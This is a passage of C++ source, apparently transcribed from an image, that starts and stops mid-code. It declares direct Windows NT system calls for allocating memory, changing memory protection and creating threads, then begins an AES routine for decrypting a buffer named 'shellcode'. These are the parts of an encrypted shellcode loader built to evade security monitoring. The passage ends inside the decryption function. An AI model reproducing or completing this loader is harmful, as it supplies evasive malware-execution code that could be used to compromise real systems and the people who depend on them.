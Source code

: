 ```cpp
	PVOID* BaseAddress,
	ULONG_PTR ZeroBits,
	PSIZE_T RegionSize,
	ULONG AllocationType,
	ULONG Protect
);
EXTERN_C NTSTATUS NtProtectVirtualMemory(
	IN HANDLE ProcessHandle,
	IN OUT PVOID* BaseAddress,
	IN OUT PSIZE_T RegionSize,
	IN ULONG NewProtect,
	OUT PULONG OldProtect);

EXTERN_C NTSTATUS NtCreateThreadEx(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PVOID lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
	OUT PVOID lpBytesBuffer
);
EXTERN_C NTSTATUS NtWaitForSingleObject(
	IN HANDLE Handle,
	IN BOOLEAN Alertable,
	IN PLARGE_INTEGER Timeout
);

void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;
	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES,
		CRYPT_VERIFYCONTEXT)) {
		printf("Failed in CryptAcquireContextW (%u)\n", GetLastError());
		return;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
		printf("Failed in CryptCreateHash (%u)\n", GetLastError());
		return;
	}
